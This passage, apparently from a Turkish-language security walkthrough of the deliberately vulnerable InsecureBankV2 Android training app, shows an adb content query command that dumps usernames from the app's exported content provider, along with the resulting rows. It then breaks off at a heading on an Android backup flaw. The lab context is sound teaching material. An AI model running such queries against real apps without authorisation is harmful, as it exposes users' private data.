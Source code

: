 ![18](/static/img/posts/insecurebankv2/part2/18.png)

Şu kısımda da URL adresini görebiliriz. O halde yapmamız gereken tek şey ufak bir komut çalıştırarak tüm verileri listelemek

```bash
$ adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Row: 0 id=3, name=dinesh
Row: 1 id=1, name=jack
Row: 2 id=2, name=jack
Row: 3 id=4, name=jack
Row: 4 id=5, name=jack
Row: 5 id=6, name=jack
```

# `Android Backup vulnerability`
